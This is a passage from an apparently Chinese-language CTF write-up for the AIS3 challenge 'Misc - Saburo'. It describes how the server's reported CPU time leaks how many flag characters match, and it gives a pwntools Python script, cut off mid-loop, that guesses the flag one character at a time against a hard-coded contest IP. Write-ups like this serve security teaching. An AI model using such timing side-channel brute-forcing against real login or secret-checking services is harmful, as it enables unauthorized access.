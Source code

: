 ![Demon](pic/Demon.png)

### Misc - Saburo

連上去，伺服器提示`Flag:`讓你輸入，然後會跑出cpu時間，拿flag的開頭`AIS3{`去試，很明顯時間跟錢面對了幾個字元直接相關，只是時間範圍其實落差蠻大。

直接上python：

```python
from pwn import *
import os

context.log_level = 'warning'
known = "AIS3{" 

chrs = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890_}"

while True:
    c=0
    prev = 0
    st = "\n"
    while c<len(chrs):
        
        avg = 0
        log.warning(f'Trying {known+chrs[c]}')
        for i in range(15):
            print(i,end='')
            p = remote("60.250.197.227", 11001)
            p.recvuntil('Flag: ')
            p.sendline(known+chrs[c])
            s = p.recvline()
            avg += int(s[18:-14])
            p.close()

        avg = avg
        print(f'  avg time={avg}')
        st += f'{chrs[c]}: {avg}\n'
        flag=0
        if avg > prev:
            flag=1
```